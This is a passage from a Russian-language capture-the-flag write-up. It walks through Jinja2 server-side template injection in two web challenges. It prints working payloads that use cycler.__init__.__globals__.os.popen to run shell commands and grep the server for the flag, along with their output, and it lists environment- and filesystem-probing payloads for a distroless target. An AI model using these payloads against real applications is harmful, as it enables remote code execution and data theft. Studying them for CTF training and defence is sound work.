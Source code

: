 Так нет информации, где лежит флаг, придется его искать. Но мы знаем формат флага: ищем по началу флага - `UCTF`, в этом нам поможет какая-нибудь утилита, которая позволяет искать файлы по их содержимому, сразу можем проверить, что нам предлагает сервер приложения (можно поиграть еще в других местах, но это самые дефолтные директории):
```python
{{ cycler.__init__.__globals__.os.popen('ls /bin').read() }}
{{ cycler.__init__.__globals__.os.popen('ls /usr/bin').read() }}
```

Ответы довольные емкие, сами кайфаните. Еще есть такой ресурс, как [gtfobins](https://gtfobins.github.io/) - посмотрите его, в будущем не раз выручит

Ищем какая утилита позволит нам искать файл по его содержимому, доходим до `grep`, читаем что он может нам дать, собираем запрос, в котором греп рекурсивно ищет по вхождению строки в файл, крайне не рекомендую делать на весь корень сразу, это может уронить сервер (также если вы исследуя сервер выяснили, что есть точно огромные директории, их тоже нужно трогать осторожно). Лучше спокойно идти по директориям, для начала можно проверить, какая команда точно отработает, мы знаем, что в `/etc/hosts` точно есть строка `172`:
```python
{{ cycler.__init__.__globals__.os.popen('grep -R "172" /etc').read() }}
```

Ответ:
```
/etc/hosts:172.21.0.2	ec92e9e3575e
```

Теперь ищем флаг (в директориях, где валяются бинари, смысла искать обычно нет, это делается только если в "обычных местах ничего не нашлось"):
```python
{{ cycler.__init__.__globals__.os.popen('grep -R "UCTF" /etc').read() }}
{{ cycler.__init__.__globals__.os.popen('grep -R "UCTF" /var').read() }}
{{ cycler.__init__.__globals__.os.popen('grep -R "UCTF" /tmp').read() }}
{{ cycler.__init__.__globals__.os.popen('grep -R "UCTF" /usr').read() }}
```

Ответ с флагом:
```
/usr/share/dict/1QdMO8Et:UCTF{x5z9ZXBm0Z4WwIa9pV0oncQSFzp5Iobi}
```
## kunigami
### tl;dr
Jinja2 SSTI + SSRF
### solution
Регаемся, логинимся, смотрим частично реализованный функционал этого великолепного куска говна, как и в случае с `bachira`, доходим до SSTI, смотрим `config.items()` - громко и четко отвечаем "нет"

Пробуем выполнить команду ОС - не получится, потому что приложение деплоится на базе дистролесс образа и в нем ничего, кроме питона и openssl, нет (кому интересно, почитайте тоже, что такое distroless) - то есть там просто нечего исполнять, кроме питон кода (а питон код в свою очередь не может какой-нибудь `os.popen()` сделать, потому что там нет шелла никакого). Впрочем, можете потыкать сами, пример такого образа: `docker run -it --rm gcr.io/distroless/python3-debian12`

Тогда придется обходиться тем, что нам дает питон - начинаем с исследования окружения и самого сервера (иногда список доступных модулей другой, иногда их там вообще нет, тут тоже придется много чего изучать):
```python
{{ cycler.__init__.__globals__.os.environ }} # переменные окружения
{{ cycler.__init__.__globals__.os.getcwd() }} # рабочая директория приложения
{{ cycler.__init__.__globals__.os.listdir('/') }} # файловая стркутура сервера, дальше идете смотреть, что там есть интересного
{{ cycler.__init__.__globals__.os.listdir('/usr/bin') }} # узнаем, что питон 3.11 (может помочь при чтении документации), можно это узнать более изящно - выполнить питоновый код, можете попробовать исполнить, мне лень таким заниматься без острой необходимости
{{ cycler.__init__.__globals__.os.listdir('/venv/bin') }} # тут тоже есть питончиковые бинари (если есть виртуальное окружение питона, то, скорее всего, в его контексте и работает приложение)
```